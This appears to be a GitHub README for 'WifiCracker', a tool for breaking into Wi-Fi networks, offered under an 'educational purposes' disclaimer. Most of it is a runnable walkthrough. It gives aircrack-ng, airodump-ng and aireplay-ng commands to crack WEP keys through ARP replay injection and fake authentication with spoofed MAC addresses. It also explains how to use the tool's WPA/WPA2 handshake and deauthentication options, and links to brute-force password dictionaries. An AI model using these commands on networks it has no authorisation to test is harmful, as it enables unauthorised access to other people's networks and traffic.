 #<u>WifiCracker</u> 
#<b>*********************************************************************</b>
#<b>Disclaimer: I don't take any responsabilities over the use of this application, it's just for educational purposes</b>
#<b>*********************************************************************</b>

###Program works with WPA/WPA2 protocol using PSK authentication, for this option Dictionaries are needed for brute forcing. Also you can use the program with WEP Wifi's protocol, for this option you don't need any dictionary

###Remember you need to install 'aircrack-ng' and 'macchanger':

| Program  | command |
| ------------- | ------------- |
| **aircrack-ng**  | sudo apt-get install aircrack-ng  |
| **macchanger**  | sudo apt-get install macchanger  |

###Mediafire links for dictionaries: [Dictionaries](https://mega.nz/#F!PB0ljZwC!H1CdY80f0mrTS4AdUm3BZw)

##**WEP Protocol**

###To capture a **WEP** Wifi password you have to do the following steps:
 
###Step 1: The first step you have to do is active the **monitor mode**, same as WPA/WPA2 protocol
 
```airmon-ng start wlp2s0 or airmon-ng start wlan0```
 
###Step 2: Execute airodump-ng to save the IV packages (packages where the password travels)
 
```airodump-ng -w datos wlp2s0 or airodump-ng -w datos wlan0```
 
###where '-w datos' indicates the file name where data will be saved
 
###Each access point works in a channel (CH). To improve the attack, you can use '-c (CH)' to filter only AP data. 

###For example:
 
```airodump-ng --ivs -w datos -c 11 wlp2s0 or airodump-ng --ivs -w datos -c 11 wlan0```
 
###Step 3: Now we just need to accelerate the capture IV's process through the injected traffic from the attacker's computer. To do this you will use the authenticated and associated client in the next step. Let capture an ARP-request packet, and then reinjected into the network to dramatically increase the number of IVs packets.
 
```aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlp2s0 or aireplay-ng -3 -b MAC_AP -h MAC_FALSO_CLIENTE -x 600 wlan0```
 
###where '-3' indicates attack type and '-x 600' allow us to indicates the speed of the reinjected packages.
 
###Step 4: To inject packets you are going to authenticate and associate with a fictitious network client.
 
```aireplay-ng -1 10 -e NOMBREWIFI -a MAC_AP -h MAC_FALSO_CLIENTE wlp2s0```
 
###where '-1 10' indicates you are goint to send 10 authentication packages, '-a MAC_AP' indicates the MAC point acces adress and '-h MAC_FALSO_CLIENTE' indicates a fake MAC adress.
 
###Last Step: Now you can execute on another console **aircrack-ng** to analyze the IV's packages obtained by **airodump-ng** and stored in **datos-01.ivs** file.
 
```aircrack-ng -0 datos-01.ivs```
 
###The process can take about 10 minutes to WEP 64-bit passwords and 20 minutes for 128-bit WEP passwords. If you want to speed up the process you can indicate the length of the WEP password as follows: 
 
```aircrack-ng -0 -n 64 datos-01.ivs```
 
###where '-n 64' indicates for example the length of WEP password.
 
###When aircrack-ng ends, he show us the WEP password on screen.

###Here you have a table for 'aireplay-ng' options

| Attack  | Function |
| ------------- | ------------- |
| **0**  | De-authentication  |
| **1**  | Fake authentication  |
| **2**  | Interactive selection of packages to send  |
| **3**  | ARP-request reinjection  |
| **4**  | Chopchop attack |
| **5**  | Fragmentation attack |
| **6**  | Caffe-late attack |
| **7**  | Fragmentation Attack (customer oriented) |
| **8**  | WPA Migration Mode |
| **9**  | Injection test |

###---------------------------------------------------------------------------------------------------------------------------

### All the process has to be done from 3 terminals. First you have to choose option 1, and then monitor interface is enabled. After that, you choose option 4 and after targetting a Wifi, you have to open a new terminal. Then execute the program again and (with Terminal 1 running) choose option 5 in Terminal 2. You have to wait 1 minute in option 5, and then press Ctrl+C. After that, open a new terminal and choose option 7 from Terminal 3 for finishing. If option 7 doesn't work, try again... that's because you need the user reconnects to the network.

###That's the error you could have

![Little Mistake](error.png)

###Otherwise, routter password appears

![Working Good](funciona.png)

###For option 6, you make a fake auth client. Sometimes, there are no clients connected to the network, so you have to create one tricking the routter. You can use your own mac to make fake authentications.

###Here you can see there are some clients connected, but particulary... i want to authenticate the client whose MAC adress is C8:38:70:59:31:4B:

![Unassociated](Unassociated.png)

###So doing option 6 look what happens with C8:38:70:59:31:4B, now it's connected to the network and you can start doing option 5 with this client:

![Unassociated](Associated.png)


